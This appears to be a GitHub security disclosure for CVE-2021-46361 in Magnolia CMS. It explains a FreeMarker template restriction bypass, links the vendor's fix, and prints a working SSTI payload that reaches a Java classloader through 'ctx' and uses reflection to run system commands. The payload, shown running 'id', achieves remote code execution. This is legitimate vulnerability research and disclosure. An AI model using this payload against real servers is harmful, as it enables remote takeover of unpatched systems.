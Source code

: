 # CVE-2021-46361: FreeMarker Restriction Bypass in Magnolia CMS

Magnolia (versions <=6.2.11) uses the Java FreeMarker Template parser in order to display dynamic content in the web application.
<br/>
Although the application implements restrictions against dangerous elements such as the FreeMarker "?new" built-in and the Java "class", "getClass" and/or "forName", a bypass was found that circumvents these restrictions and can be leveraged by attackers to obtain Remote Code Execution (RCE).

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.12.html#_security_advisory).

### Proof Of Concept:

Even if an attacker has access to modifying ".FTL" files or dynamic fields that evaluate FreeMarker template code, because of the restrictions protecting the template parser, code execution is not trivially obtained.
<br/>
Simple FreeMarker Server-Side Template Injection (SSTI) elements that should result in RCE (e.g. ${"freemarker.template.utility.Execute"?new()("id")} ), throw a silent error and the code is not executed.
<br/>

In order to bypass the restrictions and obtain RCE the following SSTI was used:
```
[#assign classloader = ctx.getRequest().servletContext.classLoader]
[#assign x = classloader.loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get("null")]
[#assign ec=classloader.loadClass("freemarker.template.utility.Execute")]
${x.newInstance(ec,null)("id")}
```

The above code leverages the "ctx" element which is an object of class "info.magnolia.context.HTMLEscapingWebContextWrapper". This is a web object containing the Server Context which can be used to reach a valid Java classloader with the following gadget:
```
ctx.getRequest().servletContext.classLoader
```

From here we can leverage Java reflection in order to load dangerous FreeMarker classes that will result in RCE. For more information on the reflection chain using the above classloader please refer to [EXPLOITING CVE-2021-25770: A SERVER-SIDE TEMPLATE INJECTION IN YOUTRACK](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html).
<br/>

In order to prove that the bypass is functional we can modify any "FTL" file in the application (in this case "/travel-demo/templates/components/carouselArea.ftl"):
<img src="Images/carouselArea_ftl.png"/>
<img src="Images/edit_ftl.png"/>

After saving the modified "FTL" file we can create a new page or access a page that already has a "carouselArea" element where we are able to see the result of the executed system command (in this case we executed the Linux "id" command).
<img src="Images/bypass_rce.png"/>

### Additional Resources:

More details about FreeMarker SSTI vulnerabilities can be found [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java)
<br/>
[EXPLOITING CVE-2021-25770: A SERVER-SIDE TEMPLATE INJECTION IN YOUTRACK](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html)
